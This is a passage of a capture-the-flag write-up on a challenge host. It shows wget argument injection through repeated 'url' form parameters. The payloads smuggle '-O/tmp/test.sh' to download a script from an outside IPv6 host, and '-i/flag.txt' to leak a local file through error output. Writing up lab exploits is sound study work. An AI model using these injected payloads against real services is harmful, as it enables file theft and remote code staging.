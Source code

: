 ```http

url=--no-proxy&url=file:///&url=http://[9000:6666:6666:6666:216:3eff:feb1:8d80]:8080/test.sh&url=-O/tmp/test.sh
```

## Read Files

While reading `wget` documentation, I came across the `-i` argument.

```bash
$ wget -h
GNU Wget 1.21.2, a non-interactive network retriever.
Usage: wget [OPTION]... [URL]...

Mandatory arguments to long options are mandatory for short options too.

Startup:
  -V,  --version                   display the version of Wget and exit
  -h,  --help                      print this help
  -b,  --background                go to background after startup
  -e,  --execute=COMMAND           execute a `.wgetrc'-style command

Logging and input file:
  -o,  --output-file=FILE          log messages to FILE
  -a,  --append-output=FILE        append messages to FILE
  -d,  --debug                     print lots of debugging information
  -q,  --quiet                     quiet (no output)
  -v,  --verbose                   be verbose (this is the default)
  -nv, --no-verbose                turn off verboseness, without being quiet
       --report-speed=TYPE         output bandwidth as TYPE.  TYPE can be bits
  -i,  --input-file=FILE           download URLs found in local or external FILE
  -F,  --force-html                treat input file as HTML
...
```

This argument allowed reading a list of URLs from a local file. I could not have a list of URLs, but it would try to use the content of any file as a URL. I thought that if there was an error executing the command, it would then display everything in the response, including the content of the file I was trying to read. I tried reading the flag this way.

```http
POST / HTTP/1.1
Host: brocaarea.ctf
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Origin: http://brocaarea.ctf
Connection: keep-alive
Referer: http://brocaarea.ctf/
Upgrade-Insecure-Requests: 1

url=--no-proxy&url=file:///&url=http://[9000:6666:6666:6666:216:3eff:feb1:8d80]:8080/test.sh&url=-i/flag.txt
```
